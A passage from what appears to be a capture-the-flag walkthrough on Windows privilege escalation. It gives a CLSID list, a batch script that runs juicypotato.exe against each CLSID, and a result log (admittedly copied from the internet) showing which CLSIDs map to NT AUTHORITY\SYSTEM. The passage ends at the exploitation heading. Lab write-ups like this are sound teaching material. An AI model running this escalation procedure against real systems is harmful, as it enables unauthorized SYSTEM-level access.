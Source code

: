 Now you will have the `cls_id.txt` file in your directory.
```
PS C:\ProgramData> type cls_id.txt
{00021401-0000-0000-C000-000000000046}
{000C101C-0000-0000-C000-000000000046}
{0010890e-8789-413c-adbc-48f5b511b3af}
{00f2b433-44e4-4d88-b2b0-2698a0a91dba}
{010911E2-F61C-479B-B08C-43E6D1299EFE}
{0289a7c5-91bf-4547-81ae-fec91a89dec5}
{02ECA72E-27DA-40E1-BDB1-4423CE649AD9}
{031EE060-67BC-460d-8847-E4A7C5E45A27}
{0358b920-0ac7-461f-98f4-58e32cd89148}
{03837511-098B-11D8-9414-505054503030}
{03837513-098B-11D8-9414-505054503030}
<<Snipped>>
```

Cool Now you will need another bat file which is[ test_clsid.bat](https://github.com/tcprks/Rchitect/blob/Yoda/Scripts/test_clsid.bat). Here's now Test_clsid.bat look like
```
@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION

FOR /F %%i IN (cls_id.txt) DO (
   echo %%i !port!
   juicypotato.exe -z -l !port! -c %%i >> result.log
   set RET=!ERRORLEVEL!
   :: echo !RET!
   if "!RET!" == "1"  set /a port=port+1
)
```

Now, looking at the script above make sure your change the filename in the `FOR` look from `cls_id.txt` to whatever you have used when you ran `getclsidtest.ps1`. Running the Bat file against the list of CLSID would throw the results in result.log and it will look something like this. **This BAT file didn't ran on the target for this box. I have shamelessly coped this output from the internet just for my understanding**
```
type result.log
{0289a7c5-91bf-4547-81ae-fec91a89dec5};NT AUTHORITY\IUSR
{0fb40f0d-1021-4022-8da0-aab0588dfc8b};NT AUTHORITY\LOCAL SERVICE
{1BE1F766-5536-11D1-B726-00C04FB926AF};NT AUTHORITY\LOCAL SERVICE
{204810b9-73b2-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{2e5e84e9-4049-4244-b728-2d24227157c7};NT AUTHORITY\LOCAL SERVICE
{42CBFAA7-A4A7-47BB-B422-BD10E9D02700};NT AUTHORITY\SYSTEM
{4661626C-9F41-40A9-B3F5-5580E80CB347};NT AUTHORITY\SYSTEM
```

Okay now we can use any of the CLSID that belongs to `NT AUTHORITY\SYSTEM`. As I mentioned earlier that the default CLSID would work on this box.
###### `Exploiting using Juicy Potato`
